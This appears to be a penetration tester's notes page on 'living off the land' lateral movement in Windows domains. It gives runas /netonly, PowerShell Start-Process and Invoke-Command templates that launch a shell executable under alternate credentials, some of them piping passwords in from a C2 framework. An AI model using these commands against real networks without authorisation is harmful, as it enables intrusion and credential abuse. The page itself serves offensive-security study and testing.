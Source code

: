 # Living off the Land

## 01 - Command Prompt

### 1.1 - Netonly

This can be appropriately used for moving the active directory network laterally, and it's also part of **command and control** methods.

```
C:\> runas /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe

C:\> runas /noprofile /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe
```

If you're using a C2 framework then you pipe it through instead entering the password in a prompt.

```
C:\> cmd /c <password> | runas /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe

C:\> echo <password> | runas /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe
```

## 02 - Powershell

Another method is using powershell to supply with the defined variables and execute with a powershell cmdlet `Start-Process`.

```powershell
PS C:\> $username = '<DOMAIN>\<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\path\to\shell.exe -NoNewWindow -Credential $credential -WorkingDirectory C:\Users\Public
```

You can also execute it remotely.

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $credential.Username, $credential.Password, $computer)
```

Syntax using the `Start-Process`.

```
PS C:\> Start-Process <commands> [-NoNewWindow] -ArgumentList (<arg_1>,<arg_2>, <arg_n>) -verb RunAs
```

Or you can remotely authenticate a network shared workstation to interact even further when you need to.

```
PS C:\> Invoke-Command -ComputerName <IP> -Credential $credential -ScriptBlock { <commands> }

PS C:\> Enter-PSSession -ComputerName <IP>
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/03 - Privilege Escalation/Windows/Domain Privilege Escalation/Token/C2 Frameworks/Metasploit|Metasploit: Token]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/03 - Privilege Escalation/Windows/Domain Privilege Escalation/Token/C2 Frameworks/Sliver|Sliver: Token]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/03 - Privilege Escalation/Windows/Domain Privilege Escalation/Token/C2 Frameworks/Cobalt Strike|Cobalt Strike: Token]]